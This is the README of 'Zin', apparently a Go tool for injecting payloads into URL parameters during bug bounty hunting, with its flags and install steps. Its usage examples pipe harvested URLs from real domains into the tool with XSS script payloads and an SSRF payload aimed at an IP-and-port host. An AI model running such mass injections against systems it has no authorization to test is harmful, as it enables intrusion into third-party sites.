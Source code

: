 ![alt text](https://upload.wikimedia.org/wikipedia/commons/9/9a/Filled_Syringe_icon.svg)
##### Version 1.0

# Zin
**A Payload Injector for bugbounties written in go**



[![Image from Gyazo](https://i.gyazo.com/d305459fe752bba0dd853e63fe81d7f1.gif)](https://gyazo.com/d305459fe752bba0dd853e63fe81d7f1)

### Features

- Inject multiple payloads into all parameters
- Inject single payloads into all parameters
- Saves responses into output folder
- Displays Status Code & Response Length
- Can grep for patterns in the response
- Really fast
- Easy to setup


### New Features
- Pattern Matching in responses
- Match Status Codes

### Arguments
```
      _
     (_)
  _____ _ __
 |_  / | '_ \
  / /| | | | |
 /___|_|_| |_|


May the bounties come


  -c int
        the concurrency (default 20)
  -g string
        grep the response for any matches
  -p string
        the payload to be used
  -pL string
        the list of payloads to be used
  -s int
        filter by status codes (default 200)
        
```


### Install

`$ git clone https://github.com/ethicalhackingplayground/Zin && cd Zin && go build`



##### SSRF Example
`$ subfinder uber.com | gau | grep "=http" | ./Zin -c 80 -p http://10.82.214.84:31386/foobar.js -g "SUP3R_S3cret_1337_K3y"`

##### XSS Example

`$ subfinder uber.com | gau| ./Zin -c 80 -p '"><script>alert(matchforthis)script>' -g "matchforthis"`


##### Inject Multiple Payloads
`$ cat hosts | gau | grep "&" | ./Zin -c 80 -pL <payloadfile>`

##### Subdomain Scanning

`$ subfinder -dL domains --silent | gau | ./Zin -c 80 -p <payload>`


##### Only Test Parameters

`$ echo "google.com" | gau | grep "&" | ./Zin -c 80 -p '"><script>alert(matchthis)</script<"' -g "matchthis" ` 

##### Multiple Hosts

`$ cat hosts | gau | ./Zin -c 80 -p <payload>`


**If you get a bounty please support by buying me a coffee**

<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

